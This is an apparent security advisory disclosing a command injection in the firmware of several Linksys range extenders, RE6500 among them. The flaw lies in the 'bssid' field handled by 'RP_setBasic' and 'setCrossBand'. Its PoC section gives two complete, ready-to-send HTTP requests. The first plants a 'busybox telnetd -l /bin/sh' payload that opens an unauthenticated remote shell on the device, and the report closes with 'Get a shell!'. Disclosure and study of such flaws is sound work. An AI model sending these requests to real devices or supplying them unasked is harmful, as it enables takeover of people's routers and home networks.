




# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasic` function, `bssid` is directly passed by the attacker, so we can control the `bssid` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

Eventually, in `setCrossBand` function, the initial input will be extracted and cause command injection.

<div  align="center"></div>

<div  align="center"></div>

Vulnerability trigger steps:

* set `bssid`='`busybox telnetd -l /bin/sh -p 3333`', in (`RP_setBasic`)
* Trigger the vulnerability, in (`setCrossBand`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS function exists the same problem, also can set the value of ApCliBssid.


## PoC

set `bssid`='`busybox telnetd -l /bin/sh -p 3334`', in (`RP_setBasic`)

```http
POST /goform/RP_setBasic HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/site_survey.shtml
Cookie: session_id=ECS6buV5lq79JJeIArM6HDVTWQn2b0un
Upgrade-Insecure-Requests: 1

ssid=NETGEAR50&bssid='`busybox telnetd -l /bin/sh -p 3334`'&channel=2&extChannel=NONE&encrypt=AES&is_wpa_mixed_mode=0&apAuthRep=&auth=WPA2-PSK&EncKey=Y3VybHlyYWJiaXQ4Nzc%3D&Key1Str1=&Key2Str1=&Key3Str1=&Key4Str1=&DefaultKeyID=&b64_pwd=1
```

Trigger the vulnerability, in (`setCrossBand`)

```http
POST /goform/setCrossBand HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/crossband.shtml
Cookie: session_id=ECS6buV5lq79JJeIArM6HDVTWQn2b0un
Upgrade-Insecure-Requests: 1

manual_two_router=upnocross&channel24g_val=-1&channel5g_val=-1&crossbandmethod=auto&manualupItme=upnocross&channel24g=0&channel5g=0
```


## Result

Get a shell!

<div  align="center"></div>

